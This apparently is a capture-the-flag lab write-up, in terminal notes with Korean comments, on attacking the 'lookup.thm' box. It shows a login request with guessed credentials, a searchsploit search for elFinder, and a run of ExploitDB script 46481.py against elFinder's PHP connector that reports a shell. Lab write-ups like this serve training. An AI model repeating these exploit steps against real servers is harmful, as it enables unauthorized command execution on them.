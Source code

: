 http --session=lookup_session POST http://lookup.thm/login.php username=jose password=password123

# exploitDB

──(root㉿vbox)-[/usr/…/exploitdb/exploits/php/webapps]
└─# searchsploit elfinder 2.
4------------------------------------------- ---------------------------------
Exploit Title | Path

---

elFinder 2 - Remote Command Execution (via | php/webapps/36925.py
elFinder 2.1.47 - 'PHP connector' Command | php/webapps/46481.py #
elFinder PHP Connector < 2.1.48 - 'exiftra | php/remote/46539.rb
elFinder PHP Connector < 2.1.48 - 'exiftra | php/remote/46539.rb
elFinder Web file manager Version - 2.1.53 | php/webapps/51864.txt

---

Shellcodes: No Results

┌──(root㉿vbox)-[/usr/…/exploitdb/exploits/php/webapps]
└─# ./46481.py
File "/usr/share/exploitdb/exploits/php/webapps/./46481.py", line 34
print "Usage: python exploit.py [URL]"
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
SyntaxError: Missing parentheses in call to 'print'. Did you mean print(...)?

# exploit

┌──(root㉿vbox)-[/usr/…/exploitdb/exploits/php/webapps]
└─# python2 ./46481.py http://files.lookup.thm/elFinder
[*] Uploading the malicious image...
[*] Running the payload...
[*] The site seems not to be vulnerable :(

┌──(root㉿vbox)-[/usr/…/exploitdb/exploits/php/webapps]
└─# python2 ./46481.py http://files.lookup.thm/elFinder/php/connector.minimal.php
[*] Uploading the malicious image...
[*] Running the payload...
[+] Pwned! :)
[+] Getting the shell...

# 연결이 된줄 알았으나 아니었음 touch SecSignal.jgp 빈 파일 이름만 jpg 로 생성 -> 실패 -> 진짜 jpg 가 아니여서 진짜 jpg 로 바꿔서 실행해봄

/home/kali/Downloads/360_F_143428338_gcxw3Jcd0tJpkvvb53pfEztwtU9sxsgT.jpg

┌──(root㉿vbox)-[/usr/…/exploitdb/exploits/php/webapps]
└─# cp /home/kali/Downloads/360_F_143428338_gcxw3Jcd0tJpkvvb53pfEztwtU9sxsgT.jpg SecSignal.jpg

┌──(root㉿vbox)-[/usr/…/exploitdb/exploits/php/webapps]
└─# python2 46481.py http://files.lookup.thm/elFinder/php/connector.minimal.php
[*] Uploading the malicious image...
[*] Running the payload...
[+] Pwned! :)
[+] Getting the shell...
$ ls
{"error":["errUnknownCmd"]}
$
